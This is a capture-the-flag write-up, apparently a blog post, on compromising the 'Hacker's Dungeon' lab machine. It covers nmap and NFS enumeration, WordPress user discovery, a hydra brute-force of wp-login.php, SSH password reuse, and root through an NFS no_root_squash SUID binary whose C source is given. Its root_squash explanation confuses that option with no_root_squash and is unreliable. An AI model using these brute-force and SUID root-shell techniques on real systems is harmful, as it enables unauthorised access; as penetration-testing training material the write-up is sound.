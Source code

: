 ```yaml
---
title: Hacker's Dungeon Machine Write up
categories: [Write-ups, MachinesCTF]
tags: [CTF,Pentesting]     # TAG names should always be lowercase
comments: false
published: true
img_path: /assets/img/machinesCTF/Hackers-Dungeon/
---
```


# Hacker's Dungeon
IP: 10.0.0.133
## **Enumeration**
We start by scanning the machine with nmap.

Discover all open ports:

![Alt text](image.png)

Check what is exactly running on these ports:

![Alt text](image-1.png)

## **Foothold**

### Port 111 and 2049
Check HackTricks for pentesting rpcbin and nfs.

https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind#rpcbind-+-nfs

https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting#enumeration

List NFS mounts:
```bash
nmap --script="nfs-showmount" 10.0.0.133
```
![Alt text](image-13.png)

There is one folder `/dungeon`.

Mount this folder. 
```bash
mkdir /tmp/mount
```
```bash
sudo mount -t nfs 10.0.0.133:dungeon /tmp/mount -o nolock
```

![Alt text](image-14.png)

Nothing interesting.

### Port 80
As we saw in our nmap scan that the robots.txt file has one disallowed directory which is `wp-admin` which indecates that there is a wordpress running on port 80.

Visiting the site.

We know the version of wordpress and apache this might be helpfull, but let us look around more.
![Alt text](image-4.png)

![Alt text](image-5.png)
Nothing seems interesting.

Checking the post by cliking on the date.

![Alt text](image-6.png)
We notice that the post was written by  user kasi.

We can confirm that the user kasi exists by trying to login with any random password on `wp-login.php` adn reading the error message.

The different weeor message will be displayed if we try random username and password `test:test`.

![Alt text](image-7.png)

We try to brute force kasi's password using hydra.

```bash
hydra -l kasi -P /usr/share/wordlists/rockyou.txt 10.0.0.133 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect" 
```
![Alt text](image-8.png)

We got the user's password `dogcat`.

After logging in we land on the profile page of the user, there is nothing interesting there.

![Alt text](image-9.png)

Going around the dashboard we find out that we are normal user, so we cant do much.

Let us try and login with the same credentials thru ssh, there is a great chance the password is reused.

![Alt text](image-10.png)

And we are in!!

We can find the user.txt flag in the user's home directory.

![Alt text](image-11.png)

## **Privilege Escalation**

Running `sudo -l` to check what the user kasi can run using sudo.

![Alt text](image-12.png)

Run python simple web server on our attacking machine to host linpeas.sh, to transfer it to the machine.

```bash
python3 -m http.server 80
```

![Alt text](image-15.png)
![Alt text](image-16.png)

What is root_squash?

root_squash will allow the root user on the client to both access and create files on the NFS server as root. Technically speaking, this option will force NFS to change the client’s root to an anonymous ID and, in effect, this will increase security by preventing ownership of the root account on one system migrating to the other system. This is needed if you are hosting root filesystems on the NFS server (especially for diskless clients); with this in mind, it can be used (sparingly) for selected hosts, but you should not use no_root_squash unless you are aware of the consequences.

[Read about the vulnerability.](https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/)

We need to make a binary that will set our user id to 0 and givves us a shell as root.

```C
#include <stdio.h>
int main(void){
    setreuid(0,0);
    system("/bin/bash");
    return 0;
      }
```

Compile it using gcc.

```bash
gcc test.c -o test 
```

As the root user on the attacking machine copy the binray `test` to the mounted directory, and set the SUID bit for it.

![Alt text](image-17.png)
![Alt text](image-18.png)

Back to the target machine on /dungeon we can find the binary and run it.

![Alt text](image-19.png)

We can find the root.txt flag in the root user's home directory.

![Alt text](image-20.png)